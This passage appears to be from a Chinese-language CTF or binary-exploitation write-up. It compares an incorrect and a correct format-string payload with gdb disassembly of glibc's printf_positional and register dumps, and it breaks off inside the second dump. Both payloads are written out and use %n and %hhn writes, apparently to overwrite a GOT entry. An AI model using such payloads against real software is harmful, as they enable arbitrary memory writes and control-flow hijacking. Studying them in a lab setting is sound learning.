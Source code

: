## Analysis
當程式執行到`<printf_positional+7716> mov    BYTE PTR [rax], bl`(如下)時，可以看一下rax數值在register中應對不同payload時的變化，我把完整的trace stack放在這一段的最下面，有興趣trace的人可以參考一下
```
   0x7ffff7e40bb4 <printf_positional+7700> test   r12d, r12d
   0x7ffff7e40bb7 <printf_positional+7703> je     0x7ffff7e40f1e <printf_positional+8574>
   0x7ffff7e40bbd <printf_positional+7709> movzx  ebx, BYTE PTR [rbp-0x8a4]
 → 0x7ffff7e40bc4 <printf_positional+7716> mov    BYTE PTR [rax], bl
   0x7ffff7e40bc6 <printf_positional+7718> jmp    0x7ffff7e3fa29 <printf_positional+3209>
   0x7ffff7e40bcb <printf_positional+7723> mov    r10d, DWORD PTR [rbx+rax*1]
   0x7ffff7e40bcf <printf_positional+7727> test   r12d, r12d
   0x7ffff7e40bd2 <printf_positional+7730> je     0x7ffff7e40f34 <printf_positional+8596>
   0x7ffff7e40bd8 <printf_positional+7736> movsx  r10, r10b
```

- ==Incorrect Payload:== `%6299672c%12$n%216c%20$hhn%10504067c%10$n`遇到的問題
    :::spoiler Register
    ```
    $rdi   : 0x0
    $rax   : 0x0
    $r8    : 0xffffffff
    $rbx   : 0xf0
    $rcx   : 0x00007ffff7f78f40  →  0x0000000000000000
    $r13   : 0x0
    $r10   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r12   : 0x1
    $r14   : 0x00007fffffffa248  →  0x00000000ffffffff
    $r9    : 0x0
    $rbp   : 0x00007fffffffa9d0  →  0x00007fffffffaf90  →  0x00007fffffffd670
    $rip   : 0x00007ffff7e40bc4  →  <printf_positional+7716> mov BYTE PTR [rax], bl
    $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $rdx   : 0x00007ffff7e3f42a  →  <printf_positional+1674> endbr64
    $r15   : 0x00007fffffffafc0  →  0x00000000fbad8004
    $rsi   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r11   : 0x6e
    $rsp   : 0x00007fffffffa060  →  0x0000000000000000
    $gs: 0x00 $fs: 0x00 $es: 0x00 $cs: 0x33 $ss: 0x2b $ds: 0x00
    ```
    :::
* ==Correct Payload:== `%c%c%c%c%c%c%c%c%c%c%6299662c%n%216c%20$hhn%10504067c%10$n`
    :::spoiler Register
    ```
    $rdi   : 0x0
    $rax   : 0x0000000000602018  →  0x00000000004006c6  →  0xffe0e90000000068 ("h"?)
    $r8    : 0xffffffff
    $rbx   : 0xf0
    $rcx   : 0x00007ffff7f78f40  →  0x0000000000000000
    $r13   : 0x0
    $r10   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r12   : 0x1
    $r14   : 0x0000000000603cf8  →  0x00000000ffffffff
    $r9    : 0x0
    $rbp   : 0x00007fffffffa9d0  →  0x00007fffffffaf90  →  0x00007fffffffd670
    $rip   : 0x00007ffff7e40bc4  →  <printf_positional+7716> mov BYTE PTR [rax], bl
    $eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
    $rdx   : 0x00007ffff7e3f42a  →  <printf_positional+1674> endbr64
    $r15   : 0x00007fffffffafc0  →  0x00000000fbad8004
    $rsi   : 0x00007fffffffa580  →  0x00000000f7fb8723
    $r11   : 0x6e
    $rsp   : 0x00007fffffffa060  →  0x0000000000000000
    $gs: 0x00 $fs: 0x00 $es: 0x00 $cs: 0x33 $ss: 0x2b $ds: 0x00
